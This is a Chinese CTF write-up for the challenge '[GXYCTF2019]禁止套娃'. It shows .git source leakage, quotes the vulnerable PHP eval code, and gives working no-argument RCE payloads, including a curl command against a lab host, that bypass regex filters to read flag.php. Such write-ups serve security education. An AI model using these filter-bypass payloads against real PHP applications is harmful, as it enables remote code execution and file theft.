# \[GXYCTF2019]禁止套娃

## \[GXYCTF2019]禁止套娃

## 考点

* `.git`泄露
* 无参RCE

## wp

目录扫描发现`.git`泄露，[GitHack](https://github.com/lijiejie/GitHack)下载源码，或者用[Git\_Extract](https://github.com/gakki429/Git\_Extract)

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

`/[a-z,_]+((?R)?)/`这个正则匹配`a(b(c()))`这种形式的字符串，典型的无参RCE

* localeconv()返回一个数组，数组第一位是`.`
* end()输出数组中的最后一个元素
* next()输出数组中的下一个元素
* prev()输出数组中的上一个元素
* &#x20;reset()输出数组中的第一个元素
* each()返回当前元素的键名和键值，并将内部指针向前移动
* array\_reverse()将数组逆序输出

payload：`?exp=highlight_file(next(array_reverse(scandir(current(localeconv())))));`

* session\_start()开启session
* session\_id()获取HTTP请求头中PHPSESSID的值

payload：

```shell
curl "http://9f308f9e-cc84-45b0-8ff7-c087bfc23b8f.node4.buuoj.cn/?exp=readfile(session_id(session_start()));" --cookie "PHPSESSID=flag.php"
```

## 小结

1. 除上述函数外，还可以使用`getallheaders()`
2. 通过`chr(ord(strrev(crypt(serialize(array())))))`获取`/`
3. 通过`chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))`获取`.`

